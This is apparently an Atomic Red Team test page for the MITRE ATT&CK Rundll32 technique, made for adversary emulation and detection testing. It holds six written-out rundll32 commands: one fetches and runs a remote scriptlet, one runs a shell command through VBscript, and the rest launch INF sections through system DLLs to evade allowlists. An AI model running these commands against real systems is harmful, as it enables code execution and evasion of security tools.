 # T1085 - Rundll32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1085)
<blockquote>The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 advpack.dll Execution](#atomic-test-3---rundll32-advpackdll-execution)

- [Atomic Test #4 - Rundll32 ieadvpack.dll Execution](#atomic-test-4---rundll32-ieadvpackdll-execution)

- [Atomic Test #5 - Rundll32 syssetup.dll Execution](#atomic-test-5---rundll32-syssetupdll-execution)

- [Atomic Test #6 - Rundll32 setupapi.dll Execution](#atomic-test-6---rundll32-setupapidll-execution)


<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject
Test execution of a remote script using rundll32.exe

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/src/T1085.sct|


#### Attack Commands: Run it with `command_prompt`! 
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();
```





<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.

Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|


#### Attack Commands: Run it with `command_prompt`! 
```
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```





<br/>
<br/>

## Atomic Test #3 - Rundll32 advpack.dll Execution
Test execution of a command using rundll32.exe with advpack.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085.inf|


#### Attack Commands: Run it with `command_prompt`! 
```
rundll32.exe advpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```





<br/>
<br/>

## Atomic Test #4 - Rundll32 ieadvpack.dll Execution
Test execution of a command using rundll32.exe with ieadvpack.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Ieadvpack.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085.inf|


#### Attack Commands: Run it with `command_prompt`! 
```
rundll32.exe ieadvpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```





<br/>
<br/>

## Atomic Test #5 - Rundll32 syssetup.dll Execution
Test execution of a command using rundll32.exe with syssetup.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Syssetup.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085_DefaultInstall.inf|


#### Attack Commands: Run it with `command_prompt`! 
```
rundll32.exe syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 .\#{inf_to_execute}
```





<br/>
<br/>

## Atomic Test #6 - Rundll32 setupapi.dll Execution
Test execution of a command using rundll32.exe with setupapi.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Setupapi.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085_DefaultInstall.inf|


#### Attack Commands: Run it with `command_prompt`! 
```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 .\#{inf_to_execute}
```





<br/>
